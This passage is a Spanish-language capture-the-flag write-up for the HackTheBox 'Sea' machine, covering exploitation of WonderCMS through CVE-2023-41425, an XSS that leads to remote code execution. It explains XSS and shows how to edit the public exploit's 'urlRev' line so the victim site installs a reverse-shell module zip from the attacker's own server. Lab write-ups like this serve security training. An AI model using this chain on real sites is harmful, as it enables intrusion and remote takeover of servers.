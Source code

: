 ![Page](/assets/img/sea/WonderCMS.png)  
>`Wonder CMS` es un gestor de contenidos (CMS) de código abierto y gratuito que permite crear y editar sitios web, blogs o páginas de aterrizaje: 
- Es un CMS de archivos planos que es rápido, responsivo y no requiere configuración 
- Es un CMS pequeño y sencillo que se instala fácilmente 
- No requiere configuración inicial 
- Todos los archivos se pueden mover, respaldar y restaurar mediante copia y pegado

---
## Fase de Explotación

### Fase 1: Preparación

Buscamos vulnerabilidades para la versión del gestor de la pagina victima.
Encontramos el siguiente reporte en el siguiente repositorio del usuario 'prodigiusMind': [CVE-2023-41425](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413)
#### ¿Cómo Funciona?

La vulnerabilidad encontrada es un `Cross Site Scrpting` que se ejecuta en el sitio donde esta alojado el gestor de contenido WonderCMS. Esto pone la mira sobre el sitio `http://sea.htb/contact.php`.
* `XSS`: el Cross Site Scripting es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante inyectar scripts maliciosos en páginas web. Permite al atacante ejecutar código **JavaScript** u otros scripts en el navegador del **usuario** o la **web** en general.
Para este caso esta vulnerabilidad se aprovecha de la capacidad de la web para la instalación de nuevos módulos en los temas de la pagina, aquí es donde subimos un archivo malicioso llamado xss.js que es el encargado de enviarnos una **ReverShell** a nuestra maquina. Para hacer esto efectivo debemos preparar lo siguiente:
1. Modificamos el exploit.py
2. Modificamos una ReverShell - rev.php

##### Modificación del exploit.py

Podemos copiar el exploit.py desde el [repositorio oficial](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413) pero debemos tomar en cuenta el modificar la línea `var urlRev` por la siguiente:
```python
# ORIGINAL
var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
# MODIFICADA CON TU IP - Servidor local
var urlRev = "http://sea.htb/wondercms/?installModule=http://<IPatacante>:8000/revshell-main.zip&directoryName=violet&type=themes&token=" + token;
```
El resultado del script con la línea modificada es el siguiente:
```python
# Exploit: WonderCMS XSS to RCE
import sys
import requests
```